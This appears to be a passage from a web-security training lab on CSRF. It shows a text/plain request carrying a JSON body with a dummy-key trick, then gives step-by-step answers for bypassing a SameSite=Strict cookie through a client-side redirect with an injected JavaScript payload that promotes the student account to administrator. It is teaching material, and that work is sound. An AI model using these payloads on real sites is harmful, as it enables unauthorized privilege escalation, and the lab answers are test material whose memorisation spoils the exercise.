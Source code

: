 ```http
POST /profile.php HTTP/1.1
Host: vulnerablesite.htb
Content-Length: 53
Content-Type: text/plain

{"promote": "htb-stdnt", "dummykey": "dummyvalue"}
```
We can see that the `Content-Type` header is not `application/json` as discussed above. However, the request body is valid JSON and can thus be parsed by the web application. We injected a dummy key and dummy value into the JSON because the HMTL payload technically submits a request body with `Content-Type text/plain` and thus inserts an `=` between the parameter's name and its value. By inserting the dummy key and dummy value, we can ensure that the `=` is inserted in the dummy key and does not pollute our payload data. This method enables us to carry out CSRF attacks even in cases where the web application only accepts a JSON-encoded request body.

## Misc CSRF Exploitation Questions

**Question 1: Identify a way to bypass the SameSite cookie restriction to conduct a successful CSRF attack to obtain administrator privileges.**

1.  Add the necessary vHosts to your `/etc/hosts` file:
    ```bash
    sudo sh -c 'echo "10.129.63.111 exploitserver.htb misc-csrf.htb" >> /etc/hosts'
    ```
2.  Navigate to `https://misc-csrf.htb`, then sign in with the credentials `htb-stdnt:Academy_student!`.
3.  Inspect the response headers to identify the `SameSite=Strict` cookie attribute on the session cookie.
4.  Identify a client-side redirect on the application (e.g., after logging in, a redirect to `/admin.php?user=htb-stdnt`).
5.  Observe if additional GET parameters can be injected into the redirect URL via the `user` GET parameter.
6.  Identify the CSRF vulnerable endpoint for promoting users (e.g., `/profile.php?promote=htb-stdnt`).
7.  Craft a payload on the exploit server (`https://exploitserver.htb`) that leverages the client-side redirect to perform the CSRF attack. The payload should redirect the victim to the client-side redirect endpoint with the `promote=htb-stdnt` parameter injected.
    ```html
    <script>
    document.location = "http://misc-csrf.htb/admin.php?user=htb-stdnt%26promote=htb-stdnt";
    </script>
    ```
8.  Save the payload to the exploit server.
9.  Deliver the payload to the victim by navigating to `https://exploitserver.htb/deliver`, selecting `misc-csrf.htb` as the target vHost, and clicking Deliver.
10. After a few moments, the victim will trigger the payload. Return to `https://misc-csrf.htb/profile.php?user=htb-stdnt` and refresh the page to confirm your user has been promoted to administrator.
